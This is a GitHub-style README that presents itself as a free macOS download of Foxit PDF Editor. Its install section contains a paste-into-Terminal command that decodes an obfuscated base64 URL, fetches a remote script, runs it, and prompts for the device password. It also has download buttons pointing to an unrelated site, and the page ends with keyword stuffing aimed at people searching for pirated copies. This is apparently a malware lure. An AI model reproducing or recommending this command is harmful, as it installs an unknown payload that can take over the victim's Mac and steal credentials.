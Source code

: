 # 🧾 Foxit PDF Editor — Powerful PDF Editing Software for macOS

Foxit PDF Editor is a versatile PDF solution designed for macOS users to create, edit, and manage PDF documents efficiently. It offers professional-grade features suitable for business and personal use, all within a native Mac environment.

## ✅ Download Foxit PDF Editor for macOS  
[![Download Foxit PDF Editor](https://img.shields.io/badge/Download-Foxit%20PDF%20Editor-blueviolet)](https://mitrobandus.github.io/.github/Foxit)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Foxit PDF Editor?

Foxit PDF Editor provides a comprehensive set of tools for editing, annotating, and securing PDF files on macOS. It supports form creation, digital signatures, and OCR, allowing users to handle all PDF workflows seamlessly.

---

## ✨ Features

- 📝 Edit text, images, and pages in PDFs  
- 📄 Create, fill, and sign PDF forms  
- 🔍 Optical Character Recognition (OCR) for scanned documents  
- 🖥️ Fully optimized for macOS with Retina display support  
- 🔒 Advanced security features including password protection and redaction  
- 🔄 Integration with cloud services for easy sharing  
- 📑 Organize pages with drag-and-drop interface  

---

## 💡 Why Use Foxit PDF Editor?

- ✅ Powerful PDF editing with professional tools on macOS  
- 🚀 Streamlines document workflows for businesses and individuals  
- 🛡️ Protects sensitive information with advanced security  
- 📲 Compatible across Mac, iPhone, and iPad  
- 💼 Supports collaboration with annotation and commenting features  

---

[![Download Foxit PDF Editor](https://img.shields.io/badge/Download-Foxit%20PDF%20Editor-blueviolet)](https://mitrobandus.github.io/.github/Foxit)

---

## 🖼️ Preview

![Foxit PDF Editor Screenshot 1](https://help.foxit.com/manuals/pdf-reader/foxit-reader-for-mac/en-us/12.1.0/images/20210516/1.png)  
![Foxit PDF Editor Screenshot 2](https://www.ghacks.net/wp-content/uploads/2022/06/foxit-pdf-reader-12.0.png)

---

## 📌 Tags

foxit pdf editor, foxit pdf editor free, foxit phantompdf download, phantom pdf, foxit editor,  
foxit pdf editor pro, foxit pdf editor download, foxit pro, phantompdf, foxit phantompdf business,  
foxit pdf editor online, foxit reader edit pdf, foxit pdf download, foxit reader free, foxit pdf free download,  
foxit editor download, foxit phantompdf free download, foxit pdf reader free, foxit pdf editor free download for windows 10,  
foxit reader linux, foxit reader portable, foxit phantom pdf business, foxit pdf editor portable, foxit pdf reader mac,  
pdf foxit phantom free download, foxit professional, download foxit phantom pdf, foxit pdf editor full,  
foxit pdf editor mac, foxit pdf editor mac download
